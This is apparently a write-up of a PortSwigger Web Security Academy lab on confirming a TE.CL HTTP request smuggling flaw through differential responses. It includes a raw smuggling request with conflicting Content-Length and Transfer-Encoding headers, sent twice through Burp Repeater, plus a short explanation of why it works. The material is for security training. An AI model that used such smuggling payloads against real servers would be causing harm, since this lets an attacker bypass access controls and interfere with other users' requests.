 # HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses) involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

## Reproduction and proof of concept

1. Using Burp Repeater, issue the following request twice:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

The second request should receive an HTTP 404 response.

## Exploitability

An attacker will need to smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a `404 Not Found` response. In this case the TE.CL vulnerability must be exploited via differential response.
